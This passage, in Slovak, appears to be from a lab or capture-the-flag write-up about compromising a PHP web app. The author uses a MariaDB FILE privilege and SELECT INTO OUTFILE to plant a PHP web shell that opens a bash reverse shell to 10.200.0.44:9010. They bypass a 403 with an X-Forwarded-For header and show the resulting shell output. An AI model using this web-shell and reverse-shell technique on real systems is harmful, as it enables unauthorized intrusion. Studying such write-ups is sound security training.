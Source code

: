 ```php
require_once __DIR__ . '/' . $language_files[$lang];
```

No, ako svc_app síce viem prezerať databázu, ale tento profil mi k exploitu asi nijako nepomôže, nakoľko jediné privilégium mám Select Table a Select Column do db myapp a Insert Table a Insert Column vy db myapp a tabuľke login_logs. Nič extra..  Skúsim účet developer s rovnakým heslo.

A prihlásilo ma.. A tú mam síce menej možnosti, ale za to signifikantne použitelnejšie na exploit... Mám Granted na Server - FILE na `*.*`.

Skúsim si napísať jednoduchý php skript na spawnutie shellu na 10.200.0.44 na port 9010. Hmm, ale kde ho zapíšem. Pozriem do `MariaDB » Server » Variables`.

Bingo `secure_file_priv    /var/www/html/app/uploads/`.

Zadal som sql command 

`SELECT "<?php ini_set('display_errors', 1); error_reporting(E_ALL); exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.200.0.44/9010 0>&1'\");" INTO OUTFILE '/var/www/html/app/uploads/test1.php'`

a idem ho skúsiť spustiť. Penelope už je nedočkavá. Ale narážam na 403 - Forbidden. Ale nie je to 404, čo je dobré. Takže idem znovu cez postmana a s pridaním hlavičky X-Forwarded-For.

Ale dostávam

`**Fatal error**: Uncaught Error: Call to undefined function exec() in /var/www/html/app/uploads/test1.php:1 Stack trace: #0 {main} thrown in **/var/www/html/app/uploads/test1.php** on line **1**`, čo znamené len jedno, nie je povolený exec. Skúsim teda system().

OK, to isté.. Dúfam, že aspoň shell_exec pôjde. A ide!!! Penelope vydala zvuk a už mám shell.

```shell
www-data@3a00ff3adfc0:/var/www/html/app/uploads$ ls -la /
total 80
drwxr-xr-x   1 root root 4096 Oct 26 00:10 .
drwxr-xr-x   1 root root 4096 Oct 26 00:10 ..
-rwxr-xr-x   1 root root    0 Oct 26 00:10 .dockerenv
lrwxrwxrwx   1 root root    7 Oct 20 00:00 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Aug 24 16:05 boot
drwxr-xr-x   5 root root  340 Oct 26 00:10 dev
-rwxrwxrwx   1 root root 2425 Oct 22 00:10 entrypoint.sh
drwxr-xr-x   1 root root 4096 Oct 26 00:10 etc
drwxr-xr-x   2 root root 4096 Aug 24 16:05 home
lrwxrwxrwx   1 root root    7 Oct 20 00:00 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Oct 20 00:00 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4096 Oct 20 00:00 media
drwxr-xr-x   2 root root 4096 Oct 20 00:00 mnt
drwxr-xr-x   1 root root 4096 Oct 22 00:10 opt
dr-xr-xr-x 602 root root    0 Oct 26 00:10 proc
drwx------   2 root root 4096 Oct 20 00:00 root
drwxr-xr-x   1 root root 4096 Oct 26 00:10 run
lrwxrwxrwx   1 root root    8 Oct 20 00:00 sbin -> usr/sbin
drwxr-xr-x   2  755 root 4096 Oct 26 00:10 secrets
drwxr-xr-x   2 root root 4096 Oct 20 00:00 srv
dr-xr-xr-x  13 root root    0 Oct 22 17:16 sys
drwxrwxrwt   1 root root 4096 Oct 26 21:03 tmp
drwxr-xr-x   1 root root 4096 Oct 20 00:00 usr
drwxr-xr-x   1 root root 4096 Oct 22 00:10 var
```
